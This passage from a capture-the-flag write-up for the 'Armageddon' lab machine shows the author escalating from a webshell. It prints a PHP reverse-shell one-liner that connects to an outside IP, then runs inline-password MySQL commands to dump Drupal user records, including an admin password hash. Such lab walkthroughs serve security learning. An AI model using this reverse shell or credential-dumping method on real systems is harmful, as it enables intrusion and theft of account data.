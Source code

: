 
Since it was a webshell, I was unable to access MySQL, so I created a reverse shell using the following PHP command:

```php
php -r '$sock=fsockopen("10.10.14.157",80);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Now that I had a proper shell, I could finally log into the MySQL database using the following command: 

```bash
mysql -u drupaluser -D drupal -p 
```

The issue that I had here was that my shell would freeze everytime that I logged in to the instance. In order to get around this issue, I used the commands directly from the shell:

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
```

There were a large number of tables within the application, but the one that I was interested in was `users`. After identifying the correct table, I selected all the data from the table using the following command:

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users\G;"
```


The `\G` flag simply displays the results vertically instead of in tabular format for easier reading. There were a few entries but the one that I was interested in is shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Armageddon/img4.png"  style="width: 80%" />
</p>


```text
uid: 1                                                                                          
name: brucetherealadmin                                                                               
pass: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt                                         
mail: admin@armageddon.eu                    
theme:                                        
signature:                                        
signature_format: filtered_html                          
created: 1606998756                             
access: 1607077194                                                                                      
login: 1607076276                                                                                      
status: 1                                      
```